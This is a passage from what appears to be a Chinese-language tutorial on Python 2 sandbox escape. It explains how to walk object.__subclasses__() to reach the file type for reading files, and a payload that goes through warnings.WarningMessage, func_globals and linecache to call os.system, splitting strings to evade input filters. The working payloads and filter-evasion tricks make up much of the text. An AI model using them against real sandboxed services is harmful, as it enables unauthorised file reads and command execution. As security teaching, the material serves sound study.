 ```python
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'sys.getwindowsversion'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'nt.stat_result'>, <type 'nt.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <type 'operator.itemgetter'>, <type 'operator.attrgetter'>, <type 'operator.methodcaller'>, <type 'functools.partial'>, <type 'MultibyteCodec'>, <type 'MultibyteIncrementalEncoder'>, <type 'MultibyteIncrementalDecoder'>, <type 'MultibyteStreamReader'>, <type 'MultibyteStreamWriter'>, <class 'string.Template'>, <class 'string.Formatter'>]
```
这样就找了更多可以拓展的类，就更方便于我们找到我们想要执行的函数  
```python
>>> [].__class__.__base__.__subclasses__()[40]
<type 'file'>
```
第四十个索引恰好是想要的file类型，就可以用它进行文件读取了
```python
>>> [].__class__.__base__.__subclasses__()[40]('d:/1.txt').read()
'hello world!'
```
  
再让我们来看下另一个命令执行的payload
```python
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
```
前面一部分思路类似于之前文件读取的思路，就直接来到这里
```python
>>> ().__class__.__bases__[0].__subclasses__()[59]
<class 'warnings.WarningMessage'>
```
可以看到是获取了一个warnings.WarningMessage类，然后继续执行`__init__`后获取全局变量
> func_globals返回一个包含函数全局变量的字典引用  

然后获取linecache模块（其中包含了os模块）
```python
>>> ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache']
<module 'linecache' from 'D:\Python\Python27\lib\linecache.pyc'>
```
然后用`__dict__`获取指定模块（由于对输入的字符进行了限制，所以要找个利用字符串获取指定模块的方式）
> \_\_dict\_\_是一个字典，键为属性名，值为属性值  
